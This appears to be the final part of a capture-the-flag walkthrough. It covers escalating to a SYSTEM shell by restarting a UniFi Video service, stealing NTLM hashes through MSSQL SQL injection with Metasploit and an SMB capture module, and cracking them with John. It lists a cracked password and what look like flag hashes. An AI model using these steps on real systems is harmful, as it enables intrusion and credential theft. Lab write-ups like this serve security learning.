![](https://lh3.googleusercontent.com/zQvdppn-7eLQDZtRPw-bOwbXA3ymrg2T9RDlw5mk6o-EC5TOJeqkOgZKlJoWEQOcFTkfHN_sNxxFJRqVfmeWbGYhnkMljCeRaKART6IrPLkbreiRY1FjpfqG2mBveDJnSKHxZQ5F141bVnIailqPn7butx4cQ7W45ZlP9s6wj-lx7xDdh8Pp2EV5GZh8nE7sfurH4VByFEB45IaUfMQVUBBMXcnT5jRUC0mN666WuT1qYNj1NsvkHlQDC7RshDgOyJ_TYg_zpbMw0sq7UPFwfSU1DFeFIFh3kI3yRon512tU5g8NVIS81X_h4P8cLhDHZz2RP6DSP-vxNJbZPHvlWZfXakVb7yRp6R41h9jhby7ElM2kPkhukhjcqaZQVg-qqqpI_cdeT0yK7YvDIeNRJQrX_2m04xt5jJuR0m_p_VWz4fXhR85dds2muRfOO6824YvS3yV5_x3g9lKJICpnOENj4ehEcxuAGQ28wKV2YDFW2DcZ7vKFRDJVWJhTpEbcxqgZA1sf6skWAcW6VCGS5c_mMu65nQvJVcrj-cEMAjpp9QXjmhppTNvSAncaGeF89preanPTByj9SN-ZNAWNVdp5Xe22I9-ZQYvzCdPNkfYkzrTPqLEcPgGYhMJ7u92f7jYYbqLjm6B4yJCUY_-v85ZDMFJ102cLgRVKt4WjN-fUvYXXU3_YNfs=w971-h449-no)

7. We type Stop-Service "Ubiquiti Unifi Video" to shutdown the program
8. Then we use Start-Service Ubiquiti Unifi Video" to restart the program
![](https://lh3.googleusercontent.com/e_jQuZQtLd8fGFwSw4BKTjoefY7uhIGXRzxT40gNwriQOj3zLJNmMmTaDUp3hJILAcJQRK7DjwtRa-kJonN1G5AquicE6VvNW18TVoEvnW7xdC22aL2dJwQn22Y3-hp68hEV1E6_7mKYMHWmlmcBi-hBFuLyPoHpyiT8jWjpnsrKUxs5F7d6nhZvKseP5NGy8gTL3t45iNa9SIzeW22RN2x2Rxfprod8W6jy0vDi8hPT3UGjYZEzwsJRfofCrtD2_IR5lavqcxd4KP1Z-HCEH_s4EyM2DW8HD53JUqEJRh_ymsV5OFfUj7bc5hzKNxPICp1XKa3AXMvETGxsfUzWfdxTJJ2cS0MXpmhE4-n_R8X4YnbevkKhR7-Wbgl1VL9DRk1-mRufs40382MZoVu3CL0edvxuq-uEPbSRRwJBSYWktgCILK61k1Ax0_le4pEu_5LhTVBWZqpv1CCclYKWM0X0cz7pxAEzH1wZsCtmDp_agRTiPavEafOnMOOrr3rZAOcBDoLHlWHmeyBtx9wreU3_wUCR11LFhTengnQbkYo1Tli7_9OsS5tMxheIlAwwPjxFuZUJt8TcjGu6qCYGz6DbhJfgtXxkK5oa_212xuRTEPvYNJifsRFFYfQc1SGdAZQPLJdHBL_Kehl2aRp7VDFiFIce9xoOWRoMbEiyrzIWAkWTk4ji0zQ=w508-h207-no)

9. Finally we obtain a "NT Authority\system" shell
![](https://lh3.googleusercontent.com/zbJWz5ivbVgTGKaz2uTscNU4Pe0s4rdS9OThnsh7fMy1n9JjPgt2CGLyjZgCG9J1oW0wywx8fRtxX4iLrmBN9Ip-h1B8HlqQ0O5HiYcNMWquzDXAXJPkwyj_2EzcZGRf4rWEhoV77e9sPnqWZRlyVGxRSUF89Dc0K5HpG6BS3TZu93jJdrkw6SM5nD59vKMib0ixb4qVusSoI4Tgj2vrWNjAMxHQgUJw5phgmv7_YaIpow1b5rRcFppTCuzRNRHEtJjUclP01gvtDg44Rb_VvZ7VKbiniBC2Zmqwvpu090kXWkSXqn3SIWEsgF-Fy9I9NIvVAogDzyrnudI3ysvjxogmktRTK5o4icKm2_MDMzF-J5rgPnm93hH7zL981gPKiboM9c5UTd14bdH3A404ayyC2qhjc0-FOMN1ilD8wVdUF4Wqf8dwtd-mVJbVow-fFCsIJhV9Za_IxG20Rv5GYp3iwF2zFKN4kEpPTOKx7UZCQ9El4AyYtOcQoQAupJdmr9REHW7qVvUQeCft4wzkI2gIY-z0a6das_qjTkXVhz8KNDsVxoS-ptI5oJ6Ln-sEhWqOWdUG3W3ld1n0wrPBXBC4PZYIdzPlLgAeRRhBe7sKiRviXI8I9acj8o9CtonUGJUXCoQKrbb3uiSYOhcynGc5G5eL54lZIaX2HaKR4ntM7ylcj6fc4r8=w613-h439-no)

# Exploitatio Method 2 MSF
1. Microsoft SQL Server SQLi NTLM Stealer
```ruby
use auxiliary/admin/mssql/mssql_ntlm_stealer_sqli
```
![](https://lh3.googleusercontent.com/Gx17xEE7q3YHkxfK7ZrYVBYW4567qoFyqHuIsg6gF-YKyN35KsitOTmB6YVo1Mb1Xyjy9wvIwR180z-b19EqVDfay6yInCOFkXzgeb3Y8xxS-hfVa1fLKVVSIwfeTROv-bMYmgvlcbNndai0SZleeKCUB1iHoC1xJoe-rcN9YdlFjn3EIABwot0upuH4LxJt-t5dfDJdorPVH71hsl0BeYOZt4gHssoArCv-Q3m3Xwg_sBOV-WtftfGb_8wvT_hVCMvDy6oUOFdHW9SQjB3ucAOcEVhuvrWw1j7XOtFRpqb6W4LLRvC0oaswFDSFd0IMI6x2wpmn5Yr_1iipSmlFHC4UzWDax6cdW55YGmCQLyb97Q4miWBmD9E6rUYLjoFA90PD7bVrUhIDkRQdSKJq7BnPFj6YaIlt2m9k9yw6Dwyyychlmml0FB8oZD0MjImafWLUcms-zVNc9_P1A3l8-eqDAryzVNoQfiHYOchkKLHYXjutmfI4aMRldbBvOw6LWRntlqvW_gqqpGdGUWbhYpQmU6xVnAXQM10Fn59w8eHbylbL4mT2XxFRmFNVCrEKMkiyE4uZM8AobJWZoEPQWYA18M35Yt5EY2iOMAXb8fTGnRdj077pJZVftiPS7PLFqjzd5iV27izi_NqYYnyf7dfAwzCkL3zz1Gj8iusnhqGU4YGeef7hThk=w698-h475-no)

2. SMB CAPTURE MODULE
```ruby
use auxiliary/server/capture/smb
```
3. USE JOHN TO CRACK THE HASHED PASSWORDS IN FORMAT:netntlmv2
```ruby
Stacy : xNnWo6272k7x 
```
```ruby
Root  CF559C6C121F683BF3E56891E80641B1 
User  10C1C275385280605E96ADD808C1A0AD 
```

